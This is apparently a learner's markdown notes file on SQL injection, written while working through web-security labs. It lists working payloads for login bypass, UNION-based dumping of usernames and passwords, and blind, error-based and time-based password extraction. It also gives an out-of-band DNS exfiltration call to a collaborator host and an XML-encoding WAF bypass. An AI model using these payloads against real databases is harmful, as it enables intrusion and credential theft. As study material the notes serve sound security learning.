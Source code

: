# SQL injection

basicaly a vulnerabily where you have an input value
that you can manipulate
and is insecurely send to the sql database
thus giving us access more access then we should have


## note
sometimes a + needs to be used in stead of spaces

## payloads explained

simplest is:
test' OR 1=1 --

this completes the query with test
but then closes it
add the OR operator
1=1 making any query correct
-- commenting out the rest of the line

sometimes payloads dont just work,
fe in the url they sometimes could need to be url encoded to work

## union selects

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
using this we can determine if there can be selected more collums

after determining the collumns
we can use the following to search for a particular string
' UNION SELECT 'searchstring',NULL,NULL--
' UNION SELECT NULL,'searchstring',NULL--
' UNION SELECT NULL,NULL,'searchstring'--

union abuse is using union statement
to merge another table
' UNION SELECT user,password FROM users--

if there arent enough collumns
you could concatenate another collumns
' UNION SELECT username || '~' || password FROM users--
|| '~' || this is a seperator in an oracle database

## gathering extra info
using builtin stuff,
combining with for example a UNION

Database type           Query
Microsoft, MySQL        SELECT @@version
Oracle                  SELECT * FROM v$version
PostgreSQL              SELECT version()

## schema
most databases have a table with the schema
this is a table containing info of the tables
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'Users'

first gathering the collumns
' ORDER BY 2--

then gather the tables
' UNION SELECT TABLE_NAME,NULL FROM information_schema.tables--

then gathering the columns of the table
' UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns WHERE table_name = 'foundtablename'--
or if being uncertain this reveals all collumns with table name to search in
' UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns--

after finding the collumn names we can use these and the specific table to gather info we need to know
' UNION SELECT columnname1,columnname2 FROM tablename--

## blind injection
is more difficult,
it does not directly show the content of the query
but it changes a response fe showing a welcome message

fe
xyz' AND '1'='1
xyz' AND '1'='2
the first would show the welcome message
but the second would not bcs it would be false

after determining the difference you'd need to check the password 1by1
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
if its true the first character fo the password is greater than m
thus trying the next its half we can narrow down the correct password
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's

abcdefghijklmnopqrstuvwxyz0123456789

ofc its tedious to do this for longer passwords
thus using chatgpt you can write a quick "bruteforcer"
see "script/sql_blind.py"

## error based
even harder

like the blind injection
we get another output in the errors
thus making it throw a different error based on if anything is true or false

first testing
'
gives an error
showing us we get a syntax error
''
shows its fixed showing no error

givesn another error
'||(SELECT '')||'

fixes the error
'||(SELECT '' FROM dual)||'

trying a nonexistant table gives an error
'||(SELECT '' FROM tryingannonexistanttable)||'

trying to get some users
'||(SELECT '' FROM users WHERE ROWNUM = 1)||'


when recieving an error we get the error
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

if we find a user we can determine the password length
'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'

then checking the char at each location
'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

ofc this will take to long to do
thus we write ask gpt to ask make a script
see "script/sql_error.py"


verbose erroring
sometimes a usefull error is returned like syntax error ' on line...
trying with a cast we could maybe get useful data out oof it
CAST((SELECT example_column FROM example_table) AS int)

'
this gave an error
'--
fixed the error
' AND CAST((SELECT 1) AS int)--
another error
' AND 1=CAST((SELECT 1) AS int)--
fixed the previous error
now inserting our generic select
' AND 1=CAST((SELECT username FROM users) AS int)--
we got an error that showed our query being cut of so removing the part of the original cookie fixed this
' AND 1=CAST((SELECT username FROM users) AS int)--
errorr says to much rows
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
errorr now says the first username
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
and just changing to get the password retrieves us the credentials

## time based sql
basicaly the sql executes but doesnt return anything different
but we could try to insert a delay based on if something is true
as the webapps are executed synchronously we could manipulate this
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
'%3BSELECT+CASE+WHEN+(YOUR-CONDITION-HERE)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--

first testing the different responses
'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
then getting a username from a table
'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
then getting its password length
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>50)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)=20)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
and then getting bruteforcing the password
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

ofc this is tedious and we let our buddy gpt
write a script for it "script/sql_timed.py"

## out-of-band (OAST) technique
if a different thread is used to execute the query
then we could try to get info by performing a network query to a server we control

most time dns could be used to extract data bcs dns most times doesnt get blocked bcs its essential for normal operations
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--

sometimes not only a string is used
but it could be hidden in xml or json

fe xml
1+1
1 UNION SELECT username || '~' || password FROM users
got us detected by a waf
<@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities>
abusing a feature of xml
gets us bypassing it

## stored sql
is saving the sql input somewhere for later use
then later gets abused

## how to prevent
use prepared statements,
parameter based querys,
instead of string concatenations,
prohibit a list of words that can exist in fields


## payloads

stored in the root folder: [sql payloads](../../lists/sql.md)

https://portswigger.net/web-security/sql-injection/cheat-sheet
